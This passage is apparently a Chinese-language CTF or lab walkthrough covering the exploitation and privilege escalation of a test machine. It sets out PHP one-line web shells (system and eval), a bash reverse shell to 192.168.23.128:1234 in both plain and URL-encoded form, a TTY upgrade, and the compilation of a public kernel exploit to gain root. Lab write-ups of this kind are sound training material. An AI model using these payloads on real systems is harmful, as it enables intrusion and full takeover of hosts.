 
<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/cf5bde3ac68b4c209dbc14240f1c5560.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/ed4367c991ac4337a9cc5861a0db6498.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
msf起一个监听，利用burpsuite发包，成功获得反弹的shell，但是测试后发现输入的命令没有用（不知道为啥）


> 
重新上传一个马，这次采用一句话马：`&lt;?php system($_POST['cmd']);?&gt;`，安装上面的思路用burpsuite发包


> 
用bash反弹shell，将命令`echo "bash -i &gt;&amp; /dev/tcp/192.168.23.128/1234 0&gt;&amp;1" | bash`进行url编码`%65%63%68%6f%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%32%33%2e%31%32%38%2f%31%32%33%34%20%30%3e%26%31%22%20%7c%20%62%61%73%68`，起一个监听，再次发包


### 提权

> 
将shell升级为 tty，得到一个交互式的shell：`python -c 'import pty;pty.spawn("/bin/bash")'`<br/> 查看系统内核版本：`uanme -a`和`cat /etc/issue`


> 
根据得到的内核相关信息，寻找可利用的exp：[https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)


> 
为了方便上传exp，在文件上传目录uploaded_images为写一个马：


```
echo '&lt;?php eval($_POST['d1no']);?&gt;' &gt;&gt; d1no.php

```

> 
利用蚁剑将exp上传上去，执行操作
- 赋予执行权限：chmod 777 37292.c- 编译exp：gcc 37292.c -o exp- 执行exp，提权至root

